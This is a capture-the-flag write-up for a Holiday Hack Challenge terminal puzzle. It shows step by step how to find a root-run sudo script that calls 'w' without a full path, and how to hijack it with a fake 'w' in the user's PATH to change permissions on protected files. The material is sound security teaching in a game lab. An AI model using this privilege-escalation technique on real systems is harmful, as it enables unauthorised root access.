





# Neighborhood Watch Bypass

{ width="500" height="350" }

**Difficulty**: :fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star::fontawesome-regular-star::fontawesome-regular-star:<br/>

**Direct link**: [Neighborhood Watch Bypass](https://hhc25-wetty-prod.holidayhackchallenge.com/?&challenge=termDosisAlarm){:target="_blank" rel="noopener"}

## Objective

!!! question "Request"
    Assist Kyle at the old data center with a fire alarm that just won't chill.

??? quote "Kyle Parrish"
    If you spot a fire, let me know! I'm Kyle, and I've been around the Holiday Hack Challenge scene for years as arnydo - picked up multiple Super Honorable Mentions along the way. <br/>

   Anyway, I could use some help here. This fire alarm keeps going nuts but there's no fire. I checked.<br/>
    I think someone has locked us out of the system. Can you see if you can get back in?<br/>


## Hints

??? tip "Path Hijacking"
    Be careful when writing scripts that allow regular users to run them. One thing to be wary of is not using full paths to executables...these can be hijacked.

??? tip "What Are My Powers?"
    You know, Sudo is a REALLY powerful tool. It allows you to run executables as ROOT!!! There is even a handy switch that will tell you what powers your user has.

## High level steps
1. Recon – Enumerate sudo privileges and analyze the allowed script to understand how it executes commands.
1. Exploit – Identify a PATH-hijacking opportunity and replace the non-absolute executable with a malicious one.
1. Impact – Execute the script with sudo to gain elevated permissions and restore the fire alarm service.





## Solution

Clicking on the fire alarm system shows the below:

{ width="700" height="550" }

The goal is execute /etc/firealarm/restore_fire_alarm. <br/>
When we try that, we get permissions denied.<br/>

```
/etc/firealarm/restore_fire_alarm
```

{ width="700" height="550" }

The hint mentions a special switch with ```sudo```.  ```-l``` could be the one.

```sudo -l``` shows the user has permission to run /usr/local/bin/system_status.sh with root access.
```
sudo -l
```

{ width="1200" height="1250" }

This means we can run this command as sudo ```/usr/local/bin/system_status.sh``` and and our path is set to ```/home/chiuser/bin```. 

The script ```/usr/local/bin/system_status.sh``` shows It calls an execute named ```w``` without Its full path.<br>
So ANY executable named ```w``` can be executed from the current user's path of running executables. ```/home/chiuser/bin/w```

Check the script.
```
cat /usr/local/bin/system_status.sh
```

{ width="1200" height="950" }

So we create a fake script named w which sets the execute permissions on the /etc/firealarm/restore_fire_alarm. <br/>
Running /usr/local/bin/system_status.sh with sudo access will run our fake w executable which will set the execute permission on /etc/firealarm/restore_fire_alarm.<br/>
Then we can run /etc/firealarm/restore_fire_alarm to complete the objective.<br/>
 
Create the fake w  (the executable in the system_status)<br/>
```
nano w
```

with the below content

```
#!/bin/bash
echo " Running fake w as $(whoami)"
chmod o+x /etc/firealarm/restore_fire_alarm
chmod o+x /etc/firealarm
```
<br/>
Set execute permission on w
<br/>

```
chmod +x w
```
Copy w to /home/chiuser/bin to overwrite w system_status is referring<br/>

```
cp w /home/chiuser/bin/
```

Run /usr/local/bin/system_status.sh with sudo access<br/>
This will set run our fake w which will set the execute permissions on /etc/firealarm and /etc/firealarm/restore_fire_alarm<br/>

```
sudo /usr/local/bin/system_status.sh
```

{ width="700" height="550" }

Now we run ls -lah which shows ```-rwxr-xr-x``` noting we have the execute permission on this binary now.
```
ls -lah /etc/firealarm/restore_fire_alarm
```
{ width="1200" height="950" }


Now we can execute restore_fire_alarm to restore the fire alarm system.

```
/etc/firealarm/restore_fire_alarm
```

{ width="1200" height="950" }


!!! success "Answer"
    Solved in the game

## Response

!!! quote "Kyle Parrish"
    All clear! You contained every incident, silenced the false alarms, and kept the neighborhood safe — that's firefighter-grade heroics!
